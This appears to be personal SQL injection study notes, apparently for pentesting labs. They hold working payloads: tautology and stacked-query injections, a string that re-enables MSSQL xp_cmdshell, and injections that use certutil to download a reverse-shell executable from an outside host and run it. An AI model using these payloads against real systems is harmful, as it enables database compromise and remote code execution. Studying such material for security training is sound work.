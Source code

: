 
https://portswigger.net/web-security/sql-injection/cheat-sheet
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md

Finding the SQL version:

Oracle           `SELECT banner FROM v$version   SELECT version FROM v$instance   `
Microsoft      `SELECT @@version`
PostgreSQL   `SELECT version()`
MySQL          `SELECT @@version`
SQLite           `SELECT sqlite_version()`

### Basics

`' OR 1=1 --` obs, not safe as all rows are returned/possibly updated

`something we know works' AND 1=1 --` safer alternative

### In-Band SQLi

### Union


### Stacked Queries

not available in all  systems

`' ; new query here; --`

# Stored procedures and functions

Procedures and functions within a  database  management system.

MSSQL has **xp_cmdshell** that might be used to execute os calls to get rce (remote code execution). (By using EXECUTE  / EXEC to run windows shell commands!!)

Disabled by default! Still common irl. New secure replacement fir example SSIS (SQL Server Integration Services).
Even when disabled, it can be enabled with an EXEC query if the user has the 'sysadmin' role or have the 'alter settings' server level permission.
`'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --`

# Upload and execute exploit/rev shell

`'; EXEC xp_cmdshell 'certutil -urlcache -f http://10.18.21.236:8000/win64-reverse.exe C:\Windows\Temp\reverse.exe'; --`
`'; EXEC xp_cmdshell 'C:\Windows\Temp\reverse.exe'; --`



